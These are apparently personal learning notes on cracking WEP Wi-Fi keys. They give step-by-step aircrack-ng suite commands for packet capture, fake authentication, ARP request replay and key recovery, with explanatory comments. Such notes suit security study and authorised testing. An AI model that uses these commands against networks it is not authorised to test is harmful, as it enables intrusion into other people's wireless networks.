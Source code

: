 # WEP Cracking Basics

1. Requirements:
    1. Capture a large number of packets/IVs - using airodump-ng to capture the data
    2. Analyse the captured IVs and crack the key - using aircrack-ng to analyze this data and break the key

2. Basic in practice(for buzy network which can get enought data)
    ```
    # 1. Find the one is using WEP at ENC column
    airodump-ng [interface name] (--band abg)

    # 2. use airodump-ng on this network only
    airodump-ng --bssid [bssid] --channel [channel] --write basic_wep (-D) [interface name]
    # the number under the Data column is the number of useful packets that contain a different IV that we can use in order to crack the key.
    # Collect the data in the folder called basic_wep
    # we assume for now, the number is increasing fast, if it's not, it will be solved underneath

    # 3. Go to another terminal: ls
    aircrack-ng basic_wep.cap

    # 4. We will see the Key Found and we need to remove the ':' between numbers, which is the key of that network. We can join that network normally using the key
    ```

3. Associate with the network
    1. Problem: APs only communicate with connected clients
    2. Solution: Associate with the AP before launching the attack; In default, the access points ignore any requests they get unless the device has connected to this network or associated with it; We're doing is literally just telling the target network look that I want to communicate with you.
    ```
    # 1. use airodump-ng on the target network
    airodump-ng --bssid [bssid] --channel [channel] --write arpreplay (-D) [interface name]
    # collect the data into a folder called arpreplay
    
    # 2. Split another terminal 
    aireplay-ng --fakeauth 0 -a [bssid] -h [interface bssid] [interface name]
    # 1) number 0 means the time to wait between association attempts, putting 0 because I only want to do this once
    # 2) bssid is the MAC Address of the target
    # 3) -h is to specify the MAC address of my interface
    # 4) to get the interface id, we need to aplit another terminal window and the first 12 digits of the unspec field is the bssid(MAC Address of the interface) replace the minus with colons
    # 5) After running the command, we can see from the airodump-ng terminal, the AUTH shows OPN and the STATION contains the MAC Address I'm using
    # 6) Still don't connecting to the network, we just associated with it
    ```

4. Force generate new IVs
    1. ARP request replay: By repeating this process, we will be forcing the router to continuously generate new packets with new IVs
        1. Wait for an ARP packet
        2. Capture it, and replay it(retransmit it)
        3. This causes the AP to produce another packet with a new IV
        4. Keep doing this till we have enough IVs to crack the key
        5. Then we just need to use aircrack-ng same as before
    2. In practice
    ```
    # 1. Associate with the target network with the process in 3

    airodump-ng --bssid [bssid] --channel [channel] --write arpreplay (-D) [interface name]
    # Split the terminal
    aireplay-ng --fakeauth 0 -a [bssid] -h [interface bssid] [interface name]

    # 2. Conduct an ARP Attack similar as above(Similar to the fakeauth attack)(Split the terminal)

    aireplay-ng --arpreplay -b [bssid] -h [interface bssid] [interface name]
    # just wait until an arp packet exists

    # 3. Crack it
    
    aircrack-ng arpreplay.cap
    # can check the name of the foler by using ls command
    ```
    
